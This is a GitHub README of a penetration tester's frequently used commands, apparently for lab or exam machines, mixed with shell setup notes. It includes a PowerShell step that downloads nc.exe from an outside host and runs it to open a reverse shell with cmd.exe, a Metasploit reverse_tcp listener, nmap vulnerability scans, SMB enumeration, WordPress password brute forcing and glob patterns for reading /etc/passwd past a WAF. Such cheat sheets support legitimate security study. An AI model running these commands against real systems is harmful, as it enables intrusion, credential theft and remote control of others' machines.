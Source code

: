 ## Some commands which I used frequently 

### python command for bash 

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 

python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/sh")' 
```

### spawn nicer shell 

```/usr/bin/script -qc /bin/bash /dev/null ```

### to get nobody removed in NFS share
```
sudo mount -t nfs -o nolock,nfsvers=3 10.1.1.72:/home home/

sudo mount -t cifs //< IP >/< SHARE > /tmp/share
```

### msf meterpreter shell listener
```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set payload windows/shell/reverse_tcp
```

### Search 
```
grep -rn './' -ie 'whatever' -B 2 -A 2

grep -rn './' -ie 'password' -B 2 -A 2
```

### nmap
```
Scan using default safe scripts         :	nmap -sV -sC 

Scan 100 most common ports (Fast)       :	nmap -F 
Scan using TCP connect                  :	nmap -sT 
Scan using TCP SYN scan (default)       :	nmap -sS 
Scan UDP ports                          :	nmap -sU -p 123,161,162 
Scan selected ports - ignore discovery	:	nmap -Pn -F 

Scan with a set of scripts (SMB)		    :	nmap -sV --script=smb* 
Scan with a set of scripts (FTP)		    :	nmap -sV --script=ftp* 

Scan with a set of scripts (smb os)		  :	nmap --script smb-os-discovery.nse -p445 

recon script VULN 						          :	nmap -Pn -p445 --script vuln -oN reconop.txt 
```

### SMB as used for msf
```
set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 1
```
### SMB as cmd
```
smbclient //1.1.1.4/ < folder name >
```
### smbmap
```
while read i; do smbmap -H $i 2>/dev/null; done < < Target IP File > | grep -v Finding | grep -v Authentication
```

### where command in win to search type of files
```
where /r c:\ proof.txt
```

### Wordpress brute force
```
wpscan --url http://10.11.1.251/wp --rua -P /usr/share/wordlists/rockyou.txt
```

### shell from powershell 
```
first upload nc

PS C:~> iwr http://10.10.14.19:7331/nc.exe -outf .\cute.exe
PS C:~> start-process -filepath .\cute.exe -argumentlist "10.10.14.9 4447 -e cmd.exe" -nonewwindow
```

### Dropbox links
```
ln -s < path of dropbox folder >  < link name > ~/data

ln -s /mnt/hgfs/2020/ ~/data
```

### file browser for jsp
```
java -jar file-browser.jar
```

### gcc
```
gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
gcc -Wl,--hash-style=both -o exp
```
### rpc commands
```
rpcclient -U "" -N 10.10.10.222

> enumdomusers
> enumdomgroups
> querygroup 0x200  // query groupname
> querygroupmem 0x200 // query group members
> queryuser 0x1f4 //query users
```

### /etc/passwd WAF restriction? Use these:
```
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?
```
### paths for .bashrc
```
export PATH=$PATH:/home/kali/.local/bin/
export PATH=$PATH:~/data/tools/
export PATH=$PATH:~/data/exploits/
export PATH=$PATH:~/data/myscrs/
export PATH=$PATH:/usr/opt/

export HISTCONTROL=ignoreboth:erasedups
```
### paths for .zshrc
```
export PATH=Users/repos/ringojs/bin/ringo-admin:$PATH

export PATH=/home/kali/.local/bin/:$PATH
export PATH=~/data/tools/:$PATH
export PATH=~/data/exploits/:$PATH
export PATH=~/data/myscrs/:$PATH
export PATH=/usr/opt/:$PATH
```
### dhclient by default

```
sudo nano /etc/rc.local


#!/bin/bash
dhclient
exit 0


sudo chmod 755 /etc/rc.local

sudo systemctl enable rc-local

sudo systemctl restart rc-local

sudo systemctl status rc-local
```


---END
